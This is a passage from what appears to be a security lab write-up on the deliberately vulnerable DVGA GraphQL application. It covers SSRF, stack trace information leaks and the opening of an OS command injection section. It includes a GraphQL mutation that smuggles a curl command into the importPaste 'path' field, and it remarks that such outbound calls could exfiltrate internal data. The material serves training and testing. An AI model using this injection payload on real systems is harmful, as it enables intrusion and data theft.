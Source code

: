 ```graphql
mutation {
    importPaste(
        host: "localhost"
        port: 80
        path: "/ | curl -i https://google.com"
        scheme: "https"
    ) {
        result
    }
}
```

Run the Query above in the BurpSuite `repeater` toolkit. This enables us to replay requests sent to the server by the client.

![ssrf](/graphql/graphql_ssrf.png)

From the figure above we able to make an outbound connection by getting google homepage. This may be an attacker controlled server to make **POST** requests to exfiltrate data from the internal organization.

### Stack Trace Errors

Stack errors that occurs due to processing of malformed requests may lead to an attacker knowing more about the host environment and software running if debug mode is enabled. This may open other attack vectors, which may lead to full system compromise.

![stack errors](/graphql/graphqlstack.png)

From response above, stack error message includes API server username is `dvga`, programming language, versions, root directory etc. Leaked information, may lead for us looking for vulnerabilities with the associated software.

## OS command Injection

OS command injection is a web vulnerability that allows an attacker to execute arbitrary commands on the server running the application. OS command injection allows an attacker to fully compromise an system.

### OS Command Injection - systemDebug

systemDebug query allows user to execute the command passed an argument as shown in the schema definition.

```json
{
    "name": "systemDebug",
    "args": [
        {
            "name": "arg"
        }
    ]
}
```
